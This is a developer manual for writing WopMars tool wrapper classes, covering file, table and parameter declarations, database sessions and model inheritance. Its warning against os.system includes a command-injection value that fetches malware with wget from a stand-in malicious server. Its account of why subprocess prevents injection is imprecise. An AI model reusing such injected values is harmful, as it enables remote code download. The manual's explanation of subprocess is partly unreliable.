 The tool wrappers
=======================

This manual aims to explain with simple words how to write the `tool wrappers` in order to allow a fresh Python developer to configure his own analysis workflow. This manual refers to the :doc:`User Manual </use>` so I recommand you to keep it open in case of blackout.

This starting guide will allow you to understand the main mecanisms which rule **WopMars**. It means the way WopMars talks with the `tool wrappers` you are using to understand their role in the workflow in terms of input and output parameters.

To illustrate the necessary conditions to build a correct `Toolwrapper`, we will use some kind of *TO DO* task list to prevent forgetting steps. The order doesn't matter but, I insist, each step is essential.

Developing basic `tool wrappers`
...............................

Declaring your class
--------------------

To define a `Toolwrapper` we will use an important concept of the *Object Oriented Programming* (OOP) which is **abstract inheritance**.

.. note::

    An abstract class is a class which represent a concept and, consequently, which is not supposed to be instantiated. For example, the bird concept: a bird flies and sings: an abstract class ``Bird`` would have methods like ``fly`` and  ``sing`` with nothing inside. Actually, there are no species called "bird", however, there are ducks and eagles. A duck is a realization of the concept of "bird". In OOP, the class ``Duck`` would inherit from ``Bird`` and would overide the methods ``fly`` and ``sing`` to specialize them in order to fit with the duck characteristics. Here, ``Duck`` is a subclass of ``Bird``.
    
A `Toolwrapper` compatible with **WopMars** have to be a subclass of the abstract class, prepare yourself, ``Toolwrapper``! For WopMars, every `Toolwrapper` is a subclass of ``Toolwrapper`` and if you ask it to work with a class which do not satisfy this simple condition, you'll obtain an error. The reason for that is simple: if your `Toolwrapper` inherit from ``Toolwrapper``, then it is certain that it contains some methods and attributes familiar to WopMars. Otherwise, there are no guarantees.

An other important thing necessary to work with WopMars is to provide the static class attribute ``__mapper_args__`` to your `Toolwrapper`. This attribute is a dictionnary which should have ``polymorphic_identity`` as key and the full name of the class (contained in a String) as value. This information is necessary to WopMars because when it will store the `tool wrappers` informations into the database, WopMars will be able to keep track of the inheritance between your `Toolwrapper` and the ``Toolwrapper`` class.

.. note::
    A static class attribute is an attribute associated with a class and not with a specific object of this class. Modifying this kind of attribute in an object of a given class is somehow similar to modifying this attribute in every object of the class (those that already exist and those future).

Here is an example of the declaration of a class called ``SparePartsManufacturer``:

.. code-block:: python

    from wopmars.framework.bdd.tables.ToolWrapper import ToolWrapper


    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }
        pass

You have now created your first `Toolwrapper`, but the aims to use abstract class inheritance is to guarantee to **WopMars** that each ``Toolwrapper`` implements some methods which describe its role.

`Toolwrapper` specifying methods
++++++++++++++++++++++++++++++++

A good way to see a `Toolwrapper` is to see it as an independant software. Meaning that it has a well defined role which is to generate a specific output in terms of a specific kinf of input with some options to parametrize its behavior. Anyway, this is the way WopMars is "watching" to the `tool wrappers`. The link between a `Toolwrapper` and WopMars is done thanks to inherited methods from ``Toolwrapper`` which have to be re-wrote by the `Toolwrapper` developer.

Describing files: ``specify_input_file`` and ``specif_output_file``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The files called *input files* and *output files* are, on the one hand, the necessary files for the tool to work and, on the other hand, the files generated by the tool. A `Toolwrapper` doesn't rely on a specific file on the machine: it shouldn't access a file in a hard-coded way but should use some kind of variable containing the path to the given file. It is for the `Toolwrapper` developer to specify those variable names and they have to be respected in the workflow definition file (see :doc:`User Manual </use>`). Those variable names are known by WopMars thanks to the methods ``specify_input_file`` (for the variable names associated with inputs) and ``specify_output_file`` (for the variable names associated with outputs). Those methods have to return each one a list containing the Strings containing the variable names accepted by the `Toolwrapper`.

.. warning::

    Every files asked by a `Toolwrapper` are required. It means that the processing of the `Toolwrapper` rely on every asked inputs and outputs. If a file is optional, you should specify it in the method ``specify_params`` (we will see it later)


The class ``SparePartsManufacturer`` takes a file in input but doesn't produce any output file. The input file path will be contained in the field named "pieces".

.. code-block:: python

    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }

        def specify_input_file(self):
            return ["pieces"]

Describing tables: ``specify_input_table`` and ``specify_output_table``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**WopMars** makes its `Toolwrapper` able to read and write entries in a database. Like for the files, the `tool wrappers` have to specify in which table of the database they will read (input tables) and in which they will write (output tables). So, the ``Toolwrapper`` class implements the methods ``specify_input_table`` and ``specify_output_table``. However, this time, the Strings contained in the returned list are associated with both the variables containing the table models and the name of the tables itself.

The final user have to write the same table names as keys in the `table` part of the definition file (see :doc:`User Manual </use>`) and the path to the models associated with those tables as the values to specify which one the `Toolwrapper` should use. Usually, a `Toolwrapper` is closely related to a specific model but we can imagine that if two models are similar for a given `Toolwrapper`, it could use one or the other independantly (for example, if a model B inherit from the model A, then every `Toolwrapper` able to use A should be able to use B too).

.. note::

    At the moment, the concept of model shouldn't be clear but don't worry, in the section concerning the models, you will get more explanations about those models. At the moment, simply note that the `Toolwrapper` communicate its input and output table names in the methods ``specify_input_table`` and ``specify_output_table``.

Here is the rest of the `Toolwrapper` ``SparePartsManufacturer`` which writes its results in the table ``piece``:

.. code-block:: python

    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }

        def specify_input_file(self):
            return ["pieces"]

        def specify_output_table(self):
            return ["piece"]

Describing paramaters: ``specify_params``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

An other feature offered by the `tool wrappers` is to allow you to specify some parameters for the processing of the wrapper. Usually, those parameters will be associated with the options allowed by the analysis tool itself. They may also correspond to options used by the `toolwrappers` to offer flexibility for the pre and post processing of the data.

To specify which options a `Toolwrapper` is able to understand, it implements a method ``specify_params``. This method returns a dictionnary in which each key correspond to the name of the option which will be used in the definition file (see :doc:`User Manual </use>`) and each value, a String representing its type. The availables types are the following (to memorize them, just think about the different Python data types):
- ``int``
- ``float``
- ``str``
- ``bool``

Furthermore, the key word ``required`` is available and allows to specify that one option has to be given by the user for the tool to run. To specify the type and use ``required`` at the same time, the character ``|`` will be used as a delimiter inside the String.

In the following class, the parameter ``max_price`` is an ``int`` and will be used to get only the entries with a price lower than it, if set.

.. code-block:: python

    class SparePartsManufacturer(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.SparePartsManufacturer"
        }

        def specify_input_file(self):
            return ["pieces"]

        def specify_output_table(self):
            return ["piece"]

        def specify_params(self):
            return {
                "max_price": int
            }

Declaring the method ``run``
++++++++++++++++++++++++++++

The ``run`` method contains the core of your `Toolwrapper`. The data processing and the call to the underlying analysis tool will be done here.

Calling files: ``self.input_file`` and ``self.output_file``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The path to the files given by the final user are manipulated thanks to the methods ``self.input_file`` and ``self.output_file`` with the name of the variable containing the desired file as argument. For example, in our definition file, we have:

.. code-block:: yaml

    rule Rule1:
        tool: 'wopexamplesnp.wrapper..SparePartsManufacturer'
        input:
            file:
                pieces: 'input/pieces.txt'

We can access the string `input/pieces.txt` with the following statement::

    self.input_file("pieces")

Calling models: ``self.input_table`` and ``self.output_table``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The models given by the user can be accessed thanks to the methodes ``self.input_table`` and ``self.output_table`` with the table name as argument. This way, and unlike the files, you won't get the string representing the model but the model itself. For example:

.. code-block:: yaml

        output:
            table:
                piece: 'wopexamplesnp.model..Piece'

We can access the model ``Piece`` with the following statement::

    self.output_table("piece")

Session and accessing the database
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If you are using **WopMars**, it is probably for the database access. Now, you know how to call the models from your method ``run`` but you probably doesn't know what to do with them. This section aims to explain how you should use your models and a session to access the database.

.. note:: 

    When you are working with databases, there is three level of hierarchy of the work you are performing on it: the session, the transaction and the operation:
    
    - The operation corresponds to each single task you are asking the database to do (``SELECT``, ``INSERT``, ``UPDATE``, ``DELETE``, etc..)
    - The transaction is a series of operations which are closely related (for example: ``SELECT``, compute then ``INSERT``). When a transaction finishes, the state of the database is checked, if every thing seems right and well ordered, the transaction is validated (``COMMIT``), if not, the whole transaction is canceled (``ROLLBACK``) in order to return to a stable state.
    - The session is a series of transactions which are independant. In other words, when you want to work with the database, you open a session and it says "I'm gonna work with you, database, are you ok?". Then, every operations you will perform will be associated with __your__ session before being ``COMMITED`` or ``ROLLBACKED``.

Developing Advanced `tool wrappers`
..................................

Now that you understand the basics of the development of the `tool wrappers` you may want to do more advanced tricks to deal with **WopMars**. 

Parametrize inputs and outputs
------------------------------

During the parsing of the configuration file, WopMars check first the validity of the parameters and then look at the inputs and outputs. This behavior allow you to parametrize which input and output your `Toolwrapper` is supposed to take depending on the used parameters. In this example, the parameter ``to_file`` is a ``boolean`` and if it is ``True``, the result is written in a file instead of the database.

.. code-block:: python

    class CarAssembler(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.CarAssembler"
        }

        def specify_output_file(self):
            if not self.option("to_file"):
                return []
            else:
                return ["piece_car"]

        def specify_input_table(self):
            return ["piece"]

        def specify_output_table(self):
            if self.option("to_file"):
                return []
            else:
                return ["piece_car"]

        def specify_params(self):
            return {
                "to_file": "bool",
                "max_price": "int",
            }

And there, the definition file (``Wopfile2`` in the example directory) look like this:

.. code-block:: yaml

    # Rule1 use SparePartsManufacturer to insert pieces informations into the table piece
    rule Rule1:
        tool: 'wopexamplesnp.wrapper..SparePartsManufacturer'
        input:
            file:
                pieces: 'input/pieces.txt'
        output:
            table:
                piece: 'wopexamplesnp.model..Piece'

    # CarAssembler make the combinations of all possible pieces to build cars and calculate the final price
    rule Rule2:
        tool: 'wopexamplesnp.wrapper..CarAssembler'
        input:
            table:
                piece: 'wopexamplesnp.model..Piece'
        output:
            # Here the output is written in a file
            file:
                piece_car: 'output/piece_car.txt'
        params:
            # The price have to be under 2000!
            max_price: 2000
            to_file: True

Inherit models
--------------

During the conception of your workflows, you may want to make multiple rules write in the same table in a specific order (for example, one rule create entries and the other add informations in the fields). Basically, you would do like ever, playing with inputs and outputs in order to fit your needs but this way, you will be stuck with a logic problem where WopMars won't be able to say "this rule should be run before this one", like in the following schema:

.. figure::  images/model_inheritance.png
   :align:   center
   
   *If you want the rules to be run in this specific order, WopMars can't understand if `rule 2` is supposed to run before `rule 4` on the basis of the table names*

You can bypass this issue using *model inheritance*. With the model inheritance, you can build a model which inherit from a former model and add it some new attributes.

Taking back our model example ``Piece``, we need an other model which add the field ``date`` to the table. We call this model ``DatedPiece``

.. code-block:: python

    from sqlalchemy.sql.sqltypes import Date
    from sqlalchemy import Column

    from wopexamplesnp.model..Piece import Piece


    class DatedPiece(Piece):
        date = Column(Date)
        
With this model, there is an other `Toolwrapper` provided in the example: ``AddDateTopiece`` which show use of the same table as input and output. You can note that here, the `output_table` only is used. Actually, we are interested here in only ``DatedPiece`` objects:

.. code-block:: python

    import time, datetime
    import random

    from wopmars.framework.bdd.tables.ToolWrapper import ToolWrapper


    class AddDateToPiece(ToolWrapper):
        __mapper_args__ = {
            "polymorphic_identity": "wopmars.example.AddDateToPiece"
        }

        def specify_input_table(self):
            return ["piece"]

        def specify_output_table(self):
            return ["piece"]

        def run(self):
            session = self.session()
            DatedPiece = self.output_table("piece")

            for p in self.session().query(DatedPiece).all():
                date = datetime.datetime.fromtimestamp(time.time() - random.randint(1000000, 100000000))
                p.date = date
                session.add(p)
            session.commit()

Executing clean command line
----------------------------

In your learning of Python, you may have encountered the famous ``os.system("command-line")`` and you probably want to make use of it again. Sorry, you **shouldn't do** things this way. Especially if you are running long analysis software. Instead, I'll show you how to use the module `subprocess <https://docs.python.org/3/library/subprocess.html>`_ for simple things and, please, use it extensively in order to get more control on the command lines you are executing.

.. note::

    As far as I know, there is two main differences between ``os.system()`` and ``subprocess`` plus the fact that ``subprocess`` is actually a little more difficult to use than the former:
    
    - ``os.system()`` is very sensible to malicious code injection. Example:

        .. code-block:: python

            def list_extension(ext):
                os.system("ls -1 *." + str(ext))
            
        This function is supposed to list all the files of a given extension in the directory. But if, instead of passing ``txt`` as argument, I pass ``txt; wget http://malicious.server/malware`` then, the function will list the files with ``txt`` extension and download the malware from the malicious server!

        Now, with ``subprocess.Popen``, you can't do such a thing because spaces are not allowed inside arguments:

        .. code-block:: python

            def list_extension(ext):
                subprocess.Popen(["ls", "-1", "*." + str(ext)])
        
    - ``subprocess`` open a Pipe between the python process and the subprocess whereas ``os.system`` calls a subshell independant of the first. This difference makes the communication between the subprocess and your python code far more easy with ``subprocess`` instead of ``os.system`` in which it is nearly impossible










packager Toolwrapper avec models








































